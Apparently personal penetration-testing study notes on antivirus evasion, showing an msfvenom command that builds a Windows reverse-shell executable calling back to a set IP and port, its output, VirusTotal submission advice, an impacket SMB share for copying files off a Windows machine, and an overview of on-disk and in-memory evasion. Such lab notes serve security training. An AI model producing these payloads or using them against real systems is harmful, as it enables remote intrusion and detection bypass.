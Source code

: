 Let's generate the test binary payload by running the **msfvenom** command followed by the **-p** argument specifying the payload
+ We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
```
+ Example output:
```
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Next, we will run a virus scan on this executable. Rather than installing a large number of antivirus applications on our local machine, we can upload our file to _VirusTotal_, which will scan it to determine the detection rate of various AV products
+ **NOTE**: VirusTotal is convenient, but it generates a hash along with storing the original file for each unique submission. The submitted files along with the metadata are then shared with all participating AV vendors. As such, take care when submitting sensitive payloads as the hash is considered public from the time of first submission
+ See the results below:
![[Pasted image 20231024105835.png]]
+ We'll notice in our results that many antivirus products determined our file is malicious based on the different detection mechanisms we have illustrated in this section

## Transferring files from Windows to Kali  with SMB Share
Start SMB share on Kali:
```
impacket-smbserver sharedFolder ~/Desktop -smb2support -username User -password Pass
```

Connect to SMB share from windows:
```
net use \\IP\sharedFolder /u:User Pass
```
+ Then search `\\IP\sharedFolder` in the windows file explorer to connect
+ Can also transfer files to it in powershell with `cp <FILENAME> \\IP\sharedFolder`

## Bypassing Antivirus Detections 
Generally speaking, antivirus evasion falls into two broad categories: _on-disk_ and _in-memory_
+ On-disk evasion focuses on modifying malicious files physically stored on disk in an attempt to evade AV file engine detections
+ However, given the maturity of modern AV file scanning engines, modern malware often attempts in-memory operation, which avoids the disk entirely and therefore, reduces the possibility of being detected
+ In the following sections, we will give a very general overview of some of the techniques used in both of these approaches
